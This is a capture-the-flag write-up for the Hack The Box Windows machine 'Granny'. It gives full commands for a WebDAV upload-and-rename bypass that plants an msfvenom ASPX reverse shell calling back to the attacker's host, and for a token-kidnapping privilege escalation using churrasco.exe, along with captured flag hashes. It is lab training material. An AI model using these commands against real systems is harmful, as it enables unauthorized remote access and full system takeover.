

+++
title = "Granny"
date = "2023-12-02"
description = "This is an easy Windows box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Windows

**Release date**: 2017-04-12

**Created by**: [ch4p](https://app.hackthebox.com/users/1)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great
practice security-wise, but it's a VM so it's alright. This way I won't have to
prefix some commands with `sudo`, which gets cumbersome in the long run.

I like to maintain consistency in my workflow for every box, so before starting
with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box.
   I'll call it `workspace`, and it will be located at the root of my filesystem
   `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll use
   `httpsimpleserver` to create an HTTP server on port `80` and
   `impacket-smbserver` to create an SMB share named `server`. This will make
   files in this folder available over the Internet, which will be especially
   useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory.
   This will come in handy once we get a foothold, for privilege escalation and
   for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the
complexity of some exploits, and prefer a more manual approach when it's not too
much hassle. This way, I'll have a better understanding of the exploits I'm
running, and I'll have more control over what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.10`. The
commands ran on my machine will be prefixed with `❯` for clarity, and if I ever
need to transfer files or binaries to the target machine, I'll always place them
in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Host `10.10.10.15`

## Scanning

### Ports

As usual, let's start by initiating a port scan on Granny using a TCP SYN `nmap`
scan to assess its attack surface.

```sh
❯ nmap -sS "10.10.10.15" -p-
```

```
<SNIP>
PORT   STATE SERVICE
80/tcp open  http
<SNIP>
```

Let's also check the 500 most common UDP ports.

```sh
❯ nmap -sU "10.10.10.15" --top-ports "500"
```

```
<SNIP>
```

### Fingerprinting

Following the ports scans, let's gather more data about the service associated
with the open TCP port we found.

```sh
❯ nmap -sS "10.10.10.15" -p "80" -sV
```

```
<SNIP>
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
<SNIP>
```

Alright, so `nmap` managed to determine that Granny is running Windows.

### Scripts

Let's run `nmap`'s default scripts on the TCP service to see if they can find
additional information.

```sh
❯ nmap -sS "10.10.10.15" -p "80" -sC
```

```
<SNIP>
PORT   STATE SERVICE
80/tcp open  http
|_http-title: Under Construction
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Server Date: Thu, 08 Feb 2024 18:47:30 GMT
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
<SNIP>
```

The `http-title` script detected that the website's homepage title is 'Under
Construction'.

Furthermore, the `http-webdav-scan` script found that plenty WebDAV methods were
allowed... this is worth digging into later on!

## Services enumeration

### IIS

#### Fingerprinting

Let's use `whatweb` to fingerprint IIS's homepage.

```sh
❯ whatweb -a3 "http://10.10.10.15/" -v
```

```
WhatWeb report for http://10.10.10.15/
Status    : 200 OK
Title     : <None>
IP        : 10.10.10.15
Country   : RESERVED, ZZ

Summary   : HTTPServer[Microsoft-IIS/6.0], Microsoft-IIS[6.0][Under Construction], MicrosoftOfficeWebServer[5.0_Pub], UncommonHeaders[microsoftofficewebserver], X-Powered-By[ASP.NET]

Detected Plugins:
[ HTTPServer ]
        HTTP server header string. This plugin also attempts to 
        identify the operating system from the server header. 

        String       : Microsoft-IIS/6.0 (from server string)

[ Microsoft-IIS ]
        Microsoft Internet Information Services (IIS) for Windows 
        Server is a flexible, secure and easy-to-manage Web server 
        for hosting anything on the Web. From media streaming to 
        web application hosting, IIS's scalable and open 
        architecture is ready to handle the most demanding tasks. 

        Module       : Under Construction
        Module       : Under Construction
        Version      : 6.0
        Website     : http://www.iis.net/

[ MicrosoftOfficeWebServer ]
        Microsoft Office Web Server 

        Version      : 5.0_Pub
        Website     : http://microsoft.com/

[ UncommonHeaders ]
        Uncommon HTTP server headers. The blacklist includes all 
        the standard headers and many non standard but common ones. 
        Interesting but fairly common headers should have their own 
        plugins, eg. x-powered-by, server and x-aspnet-version. 
        Info about headers can be found at www.http-stats.com 

        String       : microsoftofficewebserver (from headers)

[ X-Powered-By ]
        X-Powered-By HTTP header 

        String       : ASP.NET (from x-powered-by string)

HTTP Headers:
        HTTP/1.1 200 OK
        Content-Length: 1433
        Content-Type: text/html
        Content-Location: http://10.10.10.15/iisstart.htm
        Last-Modified: Fri, 21 Feb 2003 15:48:30 GMT
        Accept-Ranges: bytes
        ETag: "05b3daec0d9c21:38e"
        Server: Microsoft-IIS/6.0
        MicrosoftOfficeWebServer: 5.0_Pub
        X-Powered-By: ASP.NET
        Date: Thu, 08 Feb 2024 20:56:36 GMT
        Connection: close
```

It reveals that ASP.NET is used by the website.

#### Exploration

Let's browse to `http://10.10.10.15/`.



As the title suggests, it's a website under construction, so there's no default
web page.

#### WebDAV

The `nmap` scripts we ran [earlier](#scripts) revealed that IIS was using
WebDAV, and a wealth of details on it. Let's use `davtest` to verify this:

```sh
❯ davtest -url "http://10.10.10.15/"
```

```
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://10.10.10.15
********************************************************
NOTE    Random string for this session: bNaL9zHm3N_1EFn
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://10.10.10.15/DavTestDir_bNaL9zHm3N_1EFn
********************************************************
 Sending test files
PUT     pl      SUCCEED:        http://10.10.10.15/DavTestDir_bNaL9zHm3N_1EFn/davtest_bNaL9zHm3N_1EFn.pl
PUT     php     SUCCEED:        http://10.10.10.15/DavTestDir_bNaL9zHm3N_1EFn/davtest_bNaL9zHm3N_1EFn.php
PUT     txt     SUCCEED:        http://10.10.10.15/DavTestDir_bNaL9zHm3N_1EFn/davtest_bNaL9zHm3N_1EFn.txt
PUT     jhtml   SUCCEED:        http://10.10.10.15/DavTestDir_bNaL9zHm3N_1EFn/davtest_bNaL9zHm3N_1EFn.jhtml
PUT     asp     FAIL
PUT     html    SUCCEED:        http://10.10.10.15/DavTestDir_bNaL9zHm3N_1EFn/davtest_bNaL9zHm3N_1EFn.html
PUT     shtml   FAIL
PUT     cgi     FAIL
PUT     aspx    FAIL
PUT     cfm     SUCCEED:        http://10.10.10.15/DavTestDir_bNaL9zHm3N_1EFn/davtest_bNaL9zHm3N_1EFn.cfm
PUT     jsp     SUCCEED:        http://10.10.10.15/DavTestDir_bNaL9zHm3N_1EFn/davtest_bNaL9zHm3N_1EFn.jsp
********************************************************
 Checking for test file execution
EXEC    pl      FAIL
EXEC    php     FAIL
EXEC    txt     SUCCEED:        http://10.10.10.15/DavTestDir_bNaL9zHm3N_1EFn/davtest_bNaL9zHm3N_1EFn.txt
EXEC    txt     FAIL
EXEC    jhtml   FAIL
EXEC    html    SUCCEED:        http://10.10.10.15/DavTestDir_bNaL9zHm3N_1EFn/davtest_bNaL9zHm3N_1EFn.html
EXEC    html    FAIL
EXEC    cfm     FAIL
EXEC    jsp     FAIL

********************************************************
<SNIP>
```

This scan reveals that we can execute `.txt` and `.html` files, and that we can
upload various file types.

We know that the website is using ASP.NET, so it might be a great way to obtain
a foothold. Unfortunately, `.aspx` doesn't belong to the list of file types
we're allowed to upload.

However, the `http-webdav-scan` script revealed [previously](#scripts) that the
`MOVE` WebDAV method is allowed, so in theory nothing prevents us from uploading
an innocuous `.txt` file and move it to a `.aspx` file!

## Foothold (File upload)

Let's test this idea.

### Preparation

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll use `msfvenom` to generate a `windows/shell_reverse_tcp`
payload.

```sh
❯ msfvenom -p "windows/shell_reverse_tcp" LHOST="10.10.14.10" LPORT="9001" -f "aspx" -o "/workspace/revshell.txt"
```

### Exploitation

I'll use `cadaever` to interact more efficiently with Granny's WebDAV server.

```sh
❯ cadaver "10.10.10.15"
```

```
dav:/>
```

Let's begin by uploading our `revshell.txt`.

```sh
dav:/> put "/workspace/revshell.txt"
```

```
Uploading /workspace/revshell.txt to `/revshell.txt':
Progress: [=============================>] 100.0% of 2744 bytes succeeded.
```

Okay, it worked. Now let's move `revshell.txt` to `revshell.aspx`.

```sh
dav:/> mv "revshell.txt" "revshell.aspx"
```

```
Moving `/revshell.txt' to `/revshell.aspx':  succeeded.
```

Once again, it went off without a hitch!

Finally, let's trigger our payload:

```sh
❯ curl -s -o "/dev/null" "http://10.10.10.15/revshell.aspx"
```

And if we check our listener:

```
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.15] 1030
<SNIP>
c:\windows\system32\inetsrv>
```

It caught the reverse shell!

Unfortunately, Powershell doesn't exist on this box.

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as
`NT AUTHORITY\Network Service`.

### Architecture

What is Granny's architecture?

```bat
c:\windows\system32\inetsrv> reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v PROCESSOR_ARCHITECTURE
```

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment
    PROCESSOR_ARCHITECTURE    REG_SZ    x86
```

It's using x86. Let's keep that in mind to select the appropriate binaries.

### Version

Let's gather some information about the Windows version of Granny.

```bat
c:\windows\system32\inetsrv> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v ProductName ^
    && reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v CurrentBuildNumber
```

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion
    ProductName    REG_SZ    Microsoft Windows Server 2003 R2


HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion
    CurrentBuildNumber    REG_SZ    3790
```

In fact, it's Windows Server 2003 R2 build `3790`.

### Hotfixes

Let's retrieve the list of installed hotfixes.

```bat
c:\windows\system32\inetsrv> for /f "tokens=7 delims=\" %a in ('reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Hotfix"') do @echo %a
```

```
Q147222
```

There's only one.

### Users

Let's enumerate all users.

```bat
c:\windows\system32\inetsrv> net localgroup "Users" | find /V "NT AUTHORITY"
```

```
<SNIP>
ASPNET
Lakis
<SNIP>
```

There's `ASPNET` and `Lakis`.

What about the administrators?

```bat
c:\windows\system32\inetsrv> net localgroup "Administrators" | find /V "NT AUTHORITY"
```

```
<SNIP>
Administrator
<SNIP>
```

There's only the built-in `Administrator`.

### Groups

Let's enumerate all groups.

```bat
c:\windows\system32\inetsrv> net localgroup
```

```
<SNIP>
*Administrators
*Backup Operators
*Distributed COM Users
*Guests
*HelpServicesGroup
*IIS_WPG
*Network Configuration Operators
*OWS_209498277_admin
*Performance Log Users
*Performance Monitor Users
*Power Users
*Print Operators
*Remote Desktop Users
*Replicator
*TelnetClients
*Users
<SNIP>
```

### NICs

Let's gather the list of connected NICs.

```bat
c:\windows\system32\inetsrv> ipconfig /all
```

```
Windows IP Configuration

   Host Name . . . . . . . . . . . . : granny
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Unknown
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Intel(R) PRO/1000 MT Network Connection
   Physical Address. . . . . . . . . : 00-50-56-B9-6A-82
   DHCP Enabled. . . . . . . . . . . : No
   IP Address. . . . . . . . . . . . : 10.10.10.15
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2
   DNS Servers . . . . . . . . . . . : 10.10.10.2
```

There's just an Ethernet interface.

## System enumeration

### Access tokens

Let's retrieve the privileges associated with our current access token.

```bat
c:\windows\system32\inetsrv> whoami /priv
```

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled
```

We have several privileges, including `SeImpersonatePrivilege`... there's
probably a way to exploit that!

My first idea was obviously the Windows potatoes, which are designed to exploit
this kind of privileges, but it turns out that they are not meant to be run on
such an old Windows version. There's actually another way to exploit this
privilege on Windows Server 2003, which you can find at
[Microsoft Windows Server 2003 - Token Kidnapping Local Privilege Escalation](https://www.exploit-db.com/exploits/6705).

## Privilege escalation (Token kidnapping)

Token kidnapping is a type of privilege escalation vulnerability that allows an
attacker to gain control of a server. He can escalate his privileges on a system
if controls the `SeImpersonatePrivilege` token of a Windows service account.

### Preparation

The [ExploitDB page](https://www.exploit-db.com/exploits/6705) gives us a PoC. I
tried to compile it on a recent Visual Studio version, but it failed.
Thankfully, SQLNinja has a pre-compiled binary, which you can find at
`/usr/share/sqlninja/apps/churrasco.exe` if you are using Kali Linux.

I'll save it as `token_kidnapping.exe`, and I'll transfer it to Granny.

Now the exploit is on the machine. However, we still need to come up with a
payload to use with it!

I want to obtain a reverse shell, so I'll use `msfvenom` to create an executable
for that.

```sh
❯ msfvenom -p "windows/shell_reverse_tcp" LHOST="10.10.14.10" LPORT="9002" -f "exe" -o "/workspace/server/revshell.exe"
```

Once again, I'll transfer it to Granny.

The last thing to do is starting a listener on port `9002` to receive the
connection.

```sh
❯ rlwrap nc -lvnp "9002"
```

Now we should be ready to go!

### Exploitation

Let's use our exploit to obtain an elevated shell.

```bat
c:\windows\system32\inetsrv> C:\tmp\token_kidnapping.exe "C:\tmp\revshell.exe"
```

If we check our listener:

```
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.15] 1035
<SNIP>
C:\WINDOWS\TEMP>
```

It caught the reverse shell!

## System enumeration

If we run `whoami`, we see that we're `NT AUTHORITY\SYSTEM`!

### Flags

If we check `Lakis`'s Desktop folder, we find the user flag.

```bat
C:\WINDOWS\TEMP> type "C:\Documents and Settings\Lakis\Desktop\user.txt"
```

```
700c5dc163014e22b3e408f8703f67d1
```

And as usual, we can find the root flag in `Administrator`'s Desktop folder.

```bat
C:\WINDOWS\TEMP> type "C:\Documents and Settings\Administrator\Desktop\root.txt"
```

```
aa4beed1c0584445ab463a6747bd06e9
```

# Afterwords


That's it for this box! 🎉

I rated both the user and root flags as 'Easy' to obtain. Exploiting WebDAV to
obtain a foothold is a classic, but it was a bit challenging to have the idea of
using the `MOVE` method to bypass the upload restriction. The privilege
escalation is also a classic, but since it's an old Windows version I had to
make some research to find the appropriate exploit.

Thanks for reading!
